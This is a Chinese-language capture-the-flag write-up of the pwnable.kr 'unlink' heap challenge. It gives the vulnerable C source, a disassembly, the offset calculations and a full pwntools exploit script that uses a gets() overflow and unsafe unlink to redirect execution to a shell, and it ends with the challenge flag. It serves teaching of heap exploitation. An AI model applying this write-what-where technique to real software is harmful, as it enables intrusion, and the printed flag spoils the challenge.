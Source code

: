 ```yaml
---

layout: post

title: 'pwnable.kr之初探unlink'

date: '2017-04-23'

header-img: "img/home-bg.jpg"

tags:
     - unlink pwnable.kr
author: 'De4dCr0w'

---
```


<!-- more -->

> unlink源代码

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	typedef struct tagOBJ{
		struct tagOBJ* fd;
		struct tagOBJ* bk;
		char buf[8];
	}OBJ;
	
	void shell(){
		system("/bin/sh");
	}
	
	void unlink(OBJ* P){
		OBJ* BK;
		OBJ* FD;
		BK=P->bk;
		FD=P->fd;
		FD->bk=BK;
		BK->fd=FD;
	}
	int main(int argc, char* argv[]){
		malloc(1024);
		OBJ* A = (OBJ*)malloc(sizeof(OBJ));
		OBJ* B = (OBJ*)malloc(sizeof(OBJ));
		OBJ* C = (OBJ*)malloc(sizeof(OBJ));
	
		// double linked list: A <-> B <-> C
		A->fd = B;
		B->bk = A;
		B->fd = C;
		C->bk = B;
	
		printf("here is stack address leak: %p\n", &A);
		printf("here is heap address leak: %p\n", A);
		printf("now that you have leaks, get shell!\n");
		// heap overflow!
		gets(A->buf);
	
		// exploit this unlink!
		unlink(B);
		return 0;
	}

首先要先知道为什么unlink会触发漏洞发生，主要是在

	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;

我们将想要写入的信息和地址分别填充在BK和FD中，第三行和第四行进行赋值，就可以把信息写入相应的地址，信息和地址可以互换，只要计算好相应的偏移地址即可。之前一直不理解我把BK和FD赋值后，那FD->bk和BK->fd不就指向无效地址了吗，不会报错吗？  
这里对结构的汇编形式理解不到位，堆都是定义的结构：  
  
	struct malloc_chunk {

      INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
      INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

      struct malloc_chunk* fd;         /* double links -- used only if free. */
      struct malloc_chunk* bk;

      /* Only used for large blocks: pointer to next larger size.  */
      struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
      struct malloc_chunk* bk_nextsize;
    };

结构体是分配了一段连续的内存，所以寻找结构体成员只需要结构体首地址+相应的偏移地址，回到之前，FD->bk,实际上FD这个结构体首地址加上12偏移（32位机器下），而BK
->fd则为BK的地址加上8。（glibc malloc进行unlink操作时会将FD强制看作malloc_chunk结构体）。    
反汇编的main函数：

	Dump of assembler code for function main:
	   0x0804852f <+0>:	lea    ecx,[esp+0x4]
	   0x08048533 <+4>:	and    esp,0xfffffff0
	   0x08048536 <+7>:	push   DWORD PTR [ecx-0x4]
	   0x08048539 <+10>:	push   ebp
	   0x0804853a <+11>:	mov    ebp,esp
	   0x0804853c <+13>:	push   ecx
	   0x0804853d <+14>:	sub    esp,0x14
	   0x08048540 <+17>:	sub    esp,0xc
	   0x08048543 <+20>:	push   0x400
	   0x08048548 <+25>:	call   0x80483a0 <malloc@plt>
	   0x0804854d <+30>:	add    esp,0x10
	   0x08048550 <+33>:	sub    esp,0xc
	   0x08048553 <+36>:	push   0x10
	   0x08048555 <+38>:	call   0x80483a0 <malloc@plt>
	   0x0804855a <+43>:	add    esp,0x10
	   0x0804855d <+46>:	mov    DWORD PTR [ebp-0x14],eax
	   0x08048560 <+49>:	sub    esp,0xc
	   0x08048563 <+52>:	push   0x10
	   0x08048565 <+54>:	call   0x80483a0 <malloc@plt>
	   0x0804856a <+59>:	add    esp,0x10
	   0x0804856d <+62>:	mov    DWORD PTR [ebp-0xc],eax
	   0x08048570 <+65>:	sub    esp,0xc
	   0x08048573 <+68>:	push   0x10
	   0x08048575 <+70>:	call   0x80483a0 <malloc@plt>
	   0x0804857a <+75>:	add    esp,0x10
	   0x0804857d <+78>:	mov    DWORD PTR [ebp-0x10],eax
	   0x08048580 <+81>:	mov    eax,DWORD PTR [ebp-0x14]
	   0x08048583 <+84>:	mov    edx,DWORD PTR [ebp-0xc]
	   0x08048586 <+87>:	mov    DWORD PTR [eax],edx
	   0x08048588 <+89>:	mov    edx,DWORD PTR [ebp-0x14]
	   0x0804858b <+92>:	mov    eax,DWORD PTR [ebp-0xc]
	   0x0804858e <+95>:	mov    DWORD PTR [eax+0x4],edx
	   0x08048591 <+98>:	mov    eax,DWORD PTR [ebp-0xc]
	   0x08048594 <+101>:	mov    edx,DWORD PTR [ebp-0x10]
	   0x08048597 <+104>:	mov    DWORD PTR [eax],edx
	   0x08048599 <+106>:	mov    eax,DWORD PTR [ebp-0x10]
	   0x0804859c <+109>:	mov    edx,DWORD PTR [ebp-0xc]
	   0x0804859f <+112>:	mov    DWORD PTR [eax+0x4],edx
	   0x080485a2 <+115>:	sub    esp,0x8
	   0x080485a5 <+118>:	lea    eax,[ebp-0x14]
	   0x080485a8 <+121>:	push   eax
	   0x080485a9 <+122>:	push   0x8048698
	   0x080485ae <+127>:	call   0x8048380 <printf@plt>
	   0x080485b3 <+132>:	add    esp,0x10
	   0x080485b6 <+135>:	mov    eax,DWORD PTR [ebp-0x14]
	   0x080485b9 <+138>:	sub    esp,0x8
	   0x080485bc <+141>:	push   eax
	   0x080485bd <+142>:	push   0x80486b8
	   0x080485c2 <+147>:	call   0x8048380 <printf@plt>
	   0x080485c7 <+152>:	add    esp,0x10
	   0x080485ca <+155>:	sub    esp,0xc
	   0x080485cd <+158>:	push   0x80486d8
	   0x080485d2 <+163>:	call   0x80483b0 <puts@plt>
	   0x080485d7 <+168>:	add    esp,0x10
	   0x080485da <+171>:	mov    eax,DWORD PTR [ebp-0x14]
	   0x080485dd <+174>:	add    eax,0x8
	   0x080485e0 <+177>:	sub    esp,0xc
	   0x080485e3 <+180>:	push   eax
	   0x080485e4 <+181>:	call   0x8048390 <gets@plt>
	   0x080485e9 <+186>:	add    esp,0x10
	   0x080485ec <+189>:	sub    esp,0xc
	   0x080485ef <+192>:	push   DWORD PTR [ebp-0xc]
	   0x080485f2 <+195>:	call   0x8048504 <unlink>
	   0x080485f7 <+200>:	add    esp,0x10
	   0x080485fa <+203>:	mov    eax,0x0
	   0x080485ff <+208>:	mov    ecx,DWORD PTR [ebp-0x4]
	   0x08048602 <+211>:	leave  
	   0x08048603 <+212>:	lea    esp,[ecx-0x4]
	   0x08048606 <+215>:	ret    
	End of assembler dump.

攻击点：给A堆赋值时使用了gets函数，存在溢出B堆的可能，并在gets函数后调用了unlinkB堆，存在unlink漏洞。  
在unlinkB堆后，
		
       0x080485f2 <+195>:	call   0x8048504 <unlink>
 	   0x080485f7 <+200>:	add    esp,0x10
	   0x080485fa <+203>:	mov    eax,0x0
	   0x080485ff <+208>:	mov    ecx,DWORD PTR [ebp-0x4]
	   0x08048602 <+211>:	leave  
	   0x08048603 <+212>:	lea    esp,[ecx-0x4]
	   0x08048606 <+215>:	ret  

leave相当于mov esp ebp；pop ebp，此时esp指向的是eip，最后ret弹出的是esp的所指向的地址，我们需要做的是让esp指向shellcode的位置。而esp指向的地址是由[ecx-0x4]赋值，并且ecx保存在[ebp-0x4],为什么是这样，可以看main函数开头的堆栈情况：

	0x0804852f <+0>:	lea    0x4(%esp),%ecx
   	0x08048533 <+4>:	and    $0xfffffff0,%esp
   	0x08048536 <+7>:	pushl  -0x4(%ecx)
   	0x08048539 <+10>:	push   %ebp
   	0x0804853a <+11>:	mov    %esp,%ebp
   	0x0804853c <+13>:	push   %ecx

分析main的汇编代码我们知道堆A，B，C在栈中的情况：  

* A:[ebp-0x14]
* B:[ebp-0x0c]
* C:[ebp-0x10]

所以A堆和ecx在栈中的位置相差0x14-0x4=0x10=16  
shellcode的位置放在A中buf的前四个字节，所以它相对于A堆的位置为8，所以shellcode=A堆位置+8，但给esp赋值的是[ecx-0x4],所以shellcode=[ecx-0x4],从而推出：

> A的栈位置+16=[ebp-0x4]=ecx=shellcode+0x4=（A堆位置+8）+4=A堆位置+12  

附上unlink.py: 

	from pwn import *
	#context(log_level="debug")
	s =  ssh(host='pwnable.kr',
	         port=2222,
	         user='unlink',
	         password='guest'
	        )
	p = s.process("./unlink")
	
	p.recvuntil("here is stack address leak: ")
	stack_addr = int(p.recv(10),16)
	p.recvuntil("here is heap address leak: ")
	heap_addr = int(p.recv(9),16)
	
	p.recvuntil("now that you have leaks, get shell!\n")
	
	shell_buf = 0x080484eb
	buf = 'AAAA'
	presizeB = 'AAAA'
	sizeB = 'AAAA'
	#方法一
	fdB = heap_addr + 12
	bkB = stack_addr + 16
	'''
	#方法二
	或者交换位置，但要重新计算偏移值
	bkB = heap_addr + 12
	fdB = stack_addr + 12
	'''
	payload = p32(shell_buf) + buf + presizeB + sizeB + p32(fdB) + p32(bkB)
	
	p.sendline(payload)
	
	p.interactive()

char buf[8]是8个字节，struct tagOBJ* fd;struct tagOBJ* bk;各四个字节。 
 
* 方法一主要是利用BK->fd=FD;前面的FD->bk=BK;没有影响，因为这里的chunk是自己定义的，缺少prev_size和size字段，fd就是第一个字段，实际中bkB=stack_addr + 8,要减去pre_size和size两个字段的8个字节。  
* 方法二则是利用FD->bk=BK;分析同方法一

> flag:conditional_write_what_where_from_unl1nk_explo1t